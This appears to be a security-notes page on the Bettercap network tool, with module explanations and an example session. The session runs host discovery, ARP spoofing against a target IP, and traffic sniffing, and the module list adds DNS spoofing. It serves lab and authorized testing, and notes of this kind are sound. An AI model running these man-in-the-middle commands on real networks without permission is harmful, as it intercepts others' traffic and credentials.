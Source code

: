 #### Official Documentation: [https://www.bettercap.org/](https://www.bettercap.org/)
#### Cheat Sheet: [[Kali Tools#Bettercap|Bettercap Commands]]
## Purpose
Bettercap is a powerful, modular network attack and monitoring tool. It supports sniffing, MITM, spoofing, credential harvesting, and IoT/ble hacking.

## Scenarios
- CTF: Intercept HTTP traffic or inject payloads on a LAN challenge to steal cookies or credentials.  
- Real world: Demonstrate risks of ARP spoofing, DNS spoofing, and insecure protocols in an authorized engagement.

## All needed info to run
- Start with: `bettercap -iface <iface>`.  
- Interactive shell with modules:
  - `net.probe on` → discover hosts  
  - `net.recon on` → gather more info about devices  
  - `arp.spoof on` → perform ARP poisoning  
  - `net.sniff on` → capture traffic (with filters)  
  - `dns.spoof on` → spoof DNS replies  
- Key commands:
  - `help` → show modules  
  - `set <module.option> <value>` → configure module  
  - `show modules` / `show options` → view available tools and configs  
- Use `bettercap -eval "net.probe on; net.recon on"` for one-liners.

## Example commands & outputs
```bash
# Launch Bettercap on wlan0
$ sudo bettercap -iface wlan0
bettercap v2.32.0 [core] ...
bettercap > help

# Discover hosts
bettercap > net.probe on
bettercap > net.show
# Output:
# 192.168.56.1   08:00:27:ab:cd:ef
# 192.168.56.101 08:00:27:12:34:56

# Run ARP spoofing against target
bettercap > set arp.spoof.targets 192.168.56.101
bettercap > arp.spoof on
bettercap > net.sniff on
```

!!! note "Bettercap Basics"
	- Use `bettercap -iface <iface>` to start; run modules inside interactive shell.
	- `net.probe` + `net.recon` discover hosts; `arp.spoof` + `net.sniff` for MITM.
	- Commands can be chained in `-eval` for quick scripts.
	- MITM attacks are noisy and disruptive — only run in labs or with permission.


### [[Kali Tools#Bettercap|Bettercap Commands]]
